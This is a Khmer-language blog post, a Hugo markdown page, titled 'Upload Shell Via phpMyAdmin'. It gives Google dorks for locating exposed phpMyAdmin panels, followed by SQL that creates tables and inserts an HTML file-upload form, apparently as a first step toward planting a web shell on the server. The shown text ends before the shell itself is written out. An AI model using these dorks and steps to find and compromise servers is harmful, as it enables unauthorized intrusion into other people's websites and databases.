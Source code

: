 ```yaml
---
title: "Upload Shell Via phpMyAdmin"
date: 2021-04-01T10:01:06+07:00
description: យល់ដឹងពីវិធីបង្ហោះ Web Shell តាមរយៈ phpMyAdmin
draft: false
hideToc: false
enableToc: false
enableTocContent: false
author: thik
authorEmoji: 🐱
tags: 
- fileupload
- google-dork
- phpmyadmin
categories:
- SQLi
series:
- WebApp
image: images/feature3/sqli.png
---
```


#### Google Dorks
- allinurl:index.php?db=information_schema
- allinurl:/read_dump.php?

#### SQL Query
ចូលទៅកាន់ផ្ទាំង phpMyAdmin Database ហើយបង្កើត Database ថ្មីមួយ ឧ, "uploader" បន្ទាប់មកចុចត្រង់ផ្ទាំង SQL ហើយចម្លងចូលនូវកូដខាងក្រោមនេះ៖

{{< highlight sql "linenos=table" >}}
CREATE TABLE `uploader`.`userform` (
`track1` VARCHAR( 1000 ) NOT NULL
) ENGINE = MYISAM ;
{{< / highlight >}}

និងកូដខាងក្រោមនេះទៀត៖

{{< highlight sql "lineos=table" >}}
CREATE TABLE `uploader`.`user_upload` (
`track2` VARCHAR( 1000 ) NOT NULL
) ENGINE = MYISAM ;
{{< / highlight >}}

បន្ទាប់មកចូលទៅកាន់ Table ឈ្មោះថា user_upload ហើយចុចត្រង់ផ្ទាំង SQL និងចម្លងចូលនូវកូដខាងក្រោម៖

{{< highlight sql "lineos=table" >}}
insert into userform values ('<!DOCTYPE html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Uploader</title>
</head>
<body bgcolor="black">
<center>
<div style="color:white;margin-top:150px;"><h1>Uploader</h1></div>
<div><br><br>
<form enctype="multipart/form-data" action="uploader.php" method="post">
<input name="userfile" type="file" /><input type="submit" value="Upload" />
</form>
</div>
</center>
</body>
</html>');
{{< / highlight >}}
